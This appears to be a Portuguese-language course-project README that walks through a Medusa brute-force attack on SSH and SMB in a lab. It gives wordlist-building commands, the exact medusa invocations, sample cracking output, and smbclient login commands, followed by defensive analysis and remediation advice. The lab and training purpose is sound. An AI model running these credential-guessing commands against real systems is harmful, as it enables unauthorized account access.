

# 🛡️ Simulação de Ataque de Força Bruta (Brute Force) com Medusa no Kali Linux

Projeto prático desenvolvido para o desafio de **Ethical Hacking & Cibersegurança** da [Digital Innovation One (DIO)](https://dio.me).

---

## 📌 1. Visão Geral do Projeto

Este projeto tem como objetivo demonstrar, em ambiente estritamente controlado e autorizado, como cibercriminosos exploram credenciais corporativas vulneráveis através de ataques de **Força Bruta (Brute Force) paralelos**.

Utilizando o **Medusa** em ambiente **Linux (Kali Linux / AttackBox)**, foi simulado o processo completo de quebra de autenticação por tentativa e erro, abordando desde a preparação das *wordlists* até a validação do acesso e as medidas defensivas necessárias para mitigar essas ameaças na era da Inteligência Artificial e do Múltiplo Fator de Autenticação (MFA).

---

## 🏗️ 2. Arquitetura do Ambiente e Tecnologias Utilizadas

* **Sistema Operacional do Atacante:** Linux (Kali Linux / TryHackMe AttackBox).
* **Alvo de Teste:** Ambiente controlado com serviços de rede habilitados (SMB / SSH).
* **Ferramenta Principal de Ataque:** `Medusa v2.2` (ferramenta de auditoria de senhas modular, paralela e ultrarrápida).
* **Utilitários de Validação e Suporte:** `smbclient`, `OpenSSH`, comandos nativos bash para manipulação de listas (`echo`, `cat`).

---

## ⚙️ 3. Passo a Passo da Execução Técnica

### Etapa 1: Verificação dos Módulos do Medusa
O Medusa trabalha com arquitetura modular. Para verificar os protocolos suportados (como `smbnt.mod`, `ssh.mod`, `ftp.mod`, `web-form.mod`), executamos:
```bash
medusa -d
```

### Etapa 2: Construção das Wordlists Personalizadas
Para otimizar o ataque e evitar ruído desnecessário, preparamos listas direcionadas de credenciais corporativas comuns:

```bash
# Criação da lista de usuários alvos
echo -e "admin\nadministrator\nalvo\nroot" > usuarios.txt

# Criação da lista de senhas potenciais
echo -e "admin\n123456\nroot\nsenha123\npassword" > senhas.txt
```

### Etapa 3: Execução do Ataque de Força Bruta

O comando foi disparado utilizando paralelismo e controle de tentativas:

#### Exemplo A: Teste em Protocolo SSH (`ssh.mod`)
```bash
medusa -h 127.0.0.1 -u alvo -P senhas.txt -M ssh
```

#### Exemplo B: Teste no Protocolo SMB / Compartilhamento Windows (`smbnt.mod`)
```bash
medusa -h <IP_ALVO> -U usuarios.txt -P senhas.txt -M smbnt -t 4
```

> **Parâmetros utilizados:**
> * `-h`: Endereço IP do host alvo.
> * `-u` / `-U`: Usuário específico ou arquivo com lista de usuários (`usuarios.txt`).
> * `-P`: Arquivo com a lista de senhas a serem testadas (`senhas.txt`).
> * `-M`: Módulo do protocolo atacado (`ssh` ou `smbnt`).
> * `-t 4`: Quantidade de threads simultâneas para acelerar o processo sem travar o serviço.

---

## 🎯 4. Evidência do Resultado (Proof of Concept - PoC)

Após testar as credenciais da wordlist, o Medusa identificou a combinação válida e encerrou com sucesso a varredura daquele usuário:

```text
ACCOUNT CHECK: [ssh] Host: 127.0.0.1 ... Password: admin (1 of 5)
ACCOUNT CHECK: [ssh] Host: 127.0.0.1 ... Password: 123456 (2 of 5)
ACCOUNT CHECK: [ssh] Host: 127.0.0.1 ... Password: root (3 of 5)
ACCOUNT CHECK: [ssh] Host: 127.0.0.1 ... Password: senha123 (4 of 5)
ACCOUNT FOUND: [ssh] Host: 127.0.0.1 User: alvo Password: senha123 [SUCCESS]
```

### 📸 Registro Visual da Execução:
> *(Insira aqui a imagem da tela do seu terminal capturada durante o exercício)*



---

## 🔍 5. Validação do Acesso Obtido

Após descobrir a credencial (`alvo:senha123` ou credencial SMB), o pentester valida o nível de privilégio obtido:

* **Validação via SSH:**
  ```bash
  ssh alvo@127.0.0.1
  # Inserir a senha identificada pelo Medusa
  ```

* **Validação via SMB (smbclient):**
  ```bash
  smbclient -L //10.10.x.x -U alvo%senha123
  smbclient //10.10.x.x/compartilhamento -U alvo%senha123
  ```

---

## 🧠 6. Análise Crítica e Visão Defensiva

### A. Ferramentas Clássicas na Era da IA e do MFA
Mesmo com o avanço de defesas baseadas em Inteligência Artificial e adoção de MFA (Múltiplo Fator de Autenticação), ferramentas de força bruta como Medusa e Hydra continuam no topo do arsenal ofensivo por razões críticas:
1. **Sistemas Legados e Protocolos de Rede:** Protocolos como SMB, SSH, RDP e bancos de dados em redes internas frequentemente **não suportam MFA nativamente**.
2. **Password Spraying:** Em vez de testar milhares de senhas em um único usuário (o que trava a conta), os invasores testam poucas senhas comuns contra milhares de usuários corporativos, passando despercebidos por regras simples de bloqueio.

### B. Limitações Técnicas em Interfaces Web vs. Serviços de Rede
* **Interfaces Web:** Costumam ter proteções ativas como **CAPTCHA**, *rate limiting* e bloqueio de IP via WAF (Web Application Firewall).
* **Serviços de Infraestrutura (SMB, SSH):** Processam requisições de forma direta pelo sistema operacional e, se mal configurados, aceitam dezenas de conexões por segundo sem alertar a equipe.

### C. Mitigação de Falsos-Positivos
No Medusa, falsos-positivos podem ocorrer quando o servidor recusa conexões por excesso de tráfego e a ferramenta interpreta como falha de autenticação. Para mitigar:
* Ajustar o número de threads (`-t`).
* Inserir pausas entre tentativas (`-r`).
* Validar a credencial manualmente logo após o reporte.

---

## 🛡️ 7. Recomendações de Segurança (Remediação)

Para proteger a infraestrutura contra ataques de força bruta:

1. **Política de Bloqueio de Contas (Account Lockout):** Bloquear a conta temporariamente após 3 a 5 tentativas consecutivas incorretas.
2. **Uso Obrigatório de Múltiplo Fator de Autenticação (MFA):** Garantir que, mesmo que a senha seja descoberta, o acesso dependa de um token físico ou aplicativo.
3. **Políticas de Senha Forte:** Exigir senhas longas (passphrases) com mais de 14 caracteres, impedindo o sucesso de wordlists comuns.
4. **Implementação de Fail2ban ou EDR:** Ferramentas que monitoram logs de autenticação e bloqueiam automaticamente no firewall o IP que realizar tentativas repetidas.
5. **Segmentação de Rede e Desativação do SMBv1:** Restringir acessos a compartilhamentos SMB apenas para IPs autorizados.

---

## ⚖️ Aviso Legal
Este projeto foi conduzido exclusivamente para fins acadêmicos e educacionais em ambiente de teste isolado e autorizado. O uso dessas técnicas contra sistemas sem consentimento expresso e formal é ilegal.
